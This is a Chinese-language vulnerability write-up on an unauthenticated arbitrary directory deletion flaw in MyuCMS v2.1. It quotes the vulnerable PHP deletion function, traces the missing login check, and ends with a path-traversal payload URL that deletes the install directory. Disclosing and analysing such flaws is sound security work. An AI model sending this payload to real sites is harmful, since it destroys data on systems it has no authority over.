 MyuCMS v2.1 任意目录删除漏洞
============================

一、漏洞简介
------------

二、漏洞影响
------------

MyuCMS v2.1

三、复现过程
------------

因为漏洞描述是任意文件删除，所以先全文搜索 **unlink**
函数，定位到存在文件删除功能的代码段。

定位到 **application/common.php** 中的 **deleteun** 函数

![1.jpg](./.resource/MyuCMSv2.1任意目录删除漏洞/media/rId24.jpg)

    function deleteun($dir_name)
    {
        $result = false;
        if (is_dir($dir_name)) { // 判断是否为目录
            if ($handle = opendir($dir_name)) { // 打开目录
                while (false !== ($item = readdir($handle))) { // 通过这个 while 遍历目录中的文件 
                    if ($item != '.' && $item != '..') {
                        if (is_dir($dir_name . DS . $item)) { // 若遍历到的文件为子目录，则递归调用deleteun
                            deleteun($dir_name . DS . $item);
                        } else {
                            unlink($dir_name . DS . $item); // 删除遍历到的文件
                        }
                    }
                }
                closedir($handle); // 关闭文件夹
                if (rmdir($dir_name)) { // 删除该目录
                    $result = true;
                }
            }
        }

        return $result;
    }

根据 **deleteun**
函数的实现代码来看，我们可以看到该函数中对传入的参数无任何限制。

然后在整个项目中搜索，看哪个文件中调用了 **deleteun** 函数。

发现总共三处两个文件调用了该函数，且这三处代码内容相同，只不过是传递给的
**deleteun**
函数的参数不同，我们可以判断出，这三处都可以触发任意目录删除漏洞。

![2.jpg](./.resource/MyuCMSv2.1任意目录删除漏洞/media/rId25.jpg)

这三处的不同之处在于。**Muban.php** 继承了 **Common** 类，在 **Common**
类中实现了对于是否已经登录的验证。实现代码如下。

    public function _initialize(){
            if(!session('usermail') || !session('kouling')){
               $this->error('请登录',url('login/index')); 
               print s();
            }

        }

而 **Addons.php** 继承自 **AdminBase** 类，且初始化时执行父类
**AdminBase** 的 **\_initialize()** 方法，在 **AdminBase**
类中调用了父类 **Controller** 的 **\_initialize()** 方法。而父类的
**Controller** 的 **\_initialize();** 方法的实现内容为空。

所以 **Addons.php**
在未登录的情况下也可以访问。这意味我们不需要登录后台也可以触发任意目录删除漏洞。

### Payload

所以给出 Payload 如下，即可删除整个 **install** 目录

    Payload: http://www.0-sec.org/admin/Addons/un?info=../install

参考链接
--------

> https://xz.aliyun.com/t/7271\#toc-0
